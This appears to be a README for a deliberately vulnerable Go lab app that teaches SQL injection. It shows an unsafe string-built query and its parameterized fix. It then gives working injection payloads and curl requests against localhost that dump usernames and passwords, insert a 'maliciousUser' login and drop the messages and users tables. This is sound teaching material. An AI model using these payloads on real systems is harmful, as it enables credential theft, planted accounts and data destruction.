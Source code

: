 # What is SQL injection?

SQL injection is a vulnerability in a relational database client that allows a malicious actor to run unauthorized SQL commands against the database. This can be a big problem because it gives someone the ability to destroy important data, retrieve sensitive information, and create a backdoor into protected systems.

# How to identify a SQL injection vulnerability

Any time a SQL query is executed with variables and the variables are not properly escaped, this leaves an application open to SQL injection. For example:

```go
// String concatenation has the same vulnerability:
// query := "SELECT * FROM messages WHERE id = "  + params.ByName("id")
query := fmt.Sprintf("SELECT * FROM messages WHERE id = %s", params.ByName("id"))

if rows, err := db.Query(query); err != nil {
		return err
}
```

The code above selects rows from a table, but notice that the query string is being created directly via a string template, and there is nothing preventing someone from altering the SQL command. For example, instead of an ID, someone could pass in the string `1; DROP table messages; --`, which ends the initial select command, adds a new command, and comments out the remaining code, thereby destroying the data inside of the `messages` table.

# How to guard against SQL injection

Most programming languages have packages/libraries that make it easy to interact with the database of your choice. Each of these libraries will have methods that allow the application to execute parameterized queries, which will ensure that any variable that's being used to create a query string cannot be treated as a SQL command:

```go
// This query syntax is specific to a PostgreSQL database, where $1 is a placeholder for a parameter.
// If you are using a different database, please refer to its documentation for the correct syntax.
rows, err := db.QueryContext(ctx, "SELECT * FROM messages WHERE id = $1", params.ByName("id"))
if err != nil {
    return err
}
```

This method would ensure that if a user passes in `1; DROP table messages; --` as the value for the ID, the database would search for an ID matching "1; DROP table messages; --", rather than running the command against the database.


# How to hack into the database

## Listing the sensitive data in the users table

Notice that the code for `getMessages` in `main.go` doesn't give explicit access to the users table; however, it does give us access to user IDs, which can be used to retrieve the usernames and passwords for each user. The injected string would be something like this:

```sql
1 OR 1=1 UNION ALL SELECT id, 0 AS user_id, username || ' - ' || password FROM users --
```

Put together with the internal SQL query, the resulting command will look like this:

```sql
SELECT * FROM messages
WHERE
	id = 1 OR 1=1
UNION ALL
SELECT
	id,
	0 AS user_id,
	username || ' - ' || password
FROM users --
```

To break down each step of the query:
- `SELECT * FROM messages WHERE id = 1 or 1=1` logically translates to selecting all entries from the messages table.
- `UNION ALL SELECT id, 0 as user_id, username || ' - ' || password FROM users --` selects all entries from the users table and formats the row structure to match the messages table (i.e. integer and text), combines them with the message rows, and comments out the remaining code.

Because the entrypoint for the data is in the URL, the SQL statement will need to be [percent-encoded](https://developer.mozilla.org/en-US/docs/Glossary/Percent-encoding). Below is the curl request that will retrieve the sensitive data from the users table:

```sh
curl \
	"http://localhost:3000/messages/1%20OR%201%3D1%20UNION%20ALL%20SELECT%20id%2C%200%20AS%20user_id%2C%20username%20%7C%7C%20'%20-%20'%20%7C%7C%20password%20FROM%20users%20--"
```

## Inserting a login for a malicious user into the users table

Just like the example above, the `sendMessage` method in the `main.go` file only gives explicit access to the messages table; however, we can still insert data into the users tables:

```sql
', 1); INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --
```

Put together with the internal SQL statement, the resulting command will look like this:

```sql
INSERT INTO messages (message, user_id)
VALUES ('', 1);
INSERT INTO users (username, password)
VALUES ('maliciousUser', 'p@$$w0rd'); --
```

To break down each step of the statement:
- `INSERT INTO messages (message, user_id) VALUES ('', 1);` inserts a blank message into the messages table.
- `INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --` inserts a new username and password into the users table and comments out the remaining code.

Because the entrypoint for the data is in the body of the request, the SQL statement will need to be sent as a string in the body of the request. Below is the curl request that will insert a malicious user into the users table:

```sh
curl \
	--request POST \
	--data-binary "', 1); INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --" \
	http://localhost:3000/message/1
```

## Destroying the table data in the database

Destroying the table data will be the exact same process as inserting a malicious user; however, the injected statement will be different:

```sql
', 1); DROP TABLE messages; DROP TABLE users; --
```

Put together with the internal SQL statement, the resulting command will look like this:

```sql
INSERT INTO messages (message, user_id)
VALUES ('', 1);
DROP TABLE messages; DROP TABLE users; --
```

The `DROP TABLE` statements will destroy the tables, resulting in the loss of all message and user data. Below is the curl request that will destroy the table data in the database:

```sh
curl \
	--request POST \
	--data-binary "', 1); DROP TABLE messages; DROP TABLE users; --" \
	http://localhost:3000/message/1
```